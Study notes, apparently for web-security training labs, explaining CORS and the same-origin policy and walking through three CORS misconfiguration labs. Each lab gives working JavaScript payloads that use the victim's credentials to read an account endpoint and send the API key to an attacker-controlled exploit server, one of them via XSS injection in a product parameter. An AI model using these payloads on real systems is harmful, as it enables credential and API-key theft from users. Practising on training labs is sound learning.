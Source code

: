 # Cross-origin resource sharing (CORS)
Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.

## Same-origin policy (SOP)
The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.

## Access-Control-Allow-Origin response header
- The `Access-Control-Allow-Origin` header is included in the response from one website to a request originating from another website, and identifies the permitted origin of the request.
- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS `Access-Control-Allow-Credentials` header to true.

### LAB: CORS vulnerability with basic origin reflection
- API key is retrieved via an AJAX request to `/accountDetails`.
- The response contains the `Access-Control-Allow-Credentials`.
- Add the Origin: http://example.com header and notice that the origin is reflected in the `Access-Control-Allow-Origin` header.
    
Use this script to make a request to `/accountDetails` and append the response to be viewed at the listening server:

    <script>
        var req = new XMLHttpRequest();
        req.onreadystatechange = function () {
            if (req.readyState == XMLHttpRequest.DONE) {
            fetch("/log?key=" + req.responseText);
            }
        };
        req.open(
            "get",
            "https://0a56008a041a40ea819b0c5500690014.web-security-academy.net/accountDetails",
            true
        );
        req.withCredentials = true;
        req.send(null);
    </script>

### LAB: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

To solve this lab, use a null origin resource like sandbox:

    <iframe
        sandbox="allow-scripts"
        src="data:text/html,
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onload = function() {
                location='https://exploit-0aa500ee044a9e7880e02fd701760058.exploit-server.net/exploit?log='+this.responseText;
            }
            xhr.open('GET', 'https://0a0b002304e49eae8093308d00820077.web-security-academy.net/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send();
        </script>"
    ></iframe>

### LAB: CORS vulnerability with trusted insecure protocols
- Test that every subdomain of the server is allowed to read the response by adding the header Origin: https://subdomain.0a81003d04b8c7c980555391009f0001.web-security-academy.net
- Notice the check stock endpoint is a valid Origin and has XSS vulnerability in the `productId` parameter. Take advantage of that and make this endpoint request to the `/accountDetails` endpoint

Use this script and deliver it to the victim and obtain the API key in the listening server:

    <script>
        location = "http://stock.0a81003d04b8c7c980555391009f0001.web-security-academy.net/?storeId=1&productId=2<script>var req=new XMLHttpRequest();req.onreadystatechange=function(){if(req.readyState == XMLHttpRequest.DONE){fetch("https://exploit-0a52004204d7c79880b9523401890016.exploit-server.net/log?key="+req.responseText);}};req.open("get","https://0a81003d04b8c7c980555391009f0001.web-security-academy.net/accountDetails",true);req.withCredentials=true;req.send(null);</script>"
    </script>
The response would be:

    <h4>ERROR</h4>
    Invalid product ID: 2
    <script>
        var req=new XMLHttpRequest();
        req.onreadystatechange=function(){
            if(req.readyState == XMLHttpRequest.DONE){
                fetch("https://exploit-0a52004204d7c79880b9523401890016.exploit-server.net/log?key="+req.responseText);
            }
        };
        req.open("get","https://0a81003d04b8c7c980555391009f0001.web-security-academy.net/accountDetails",true);
        req.withCredentials=true;
        req.send(null);
    </script>
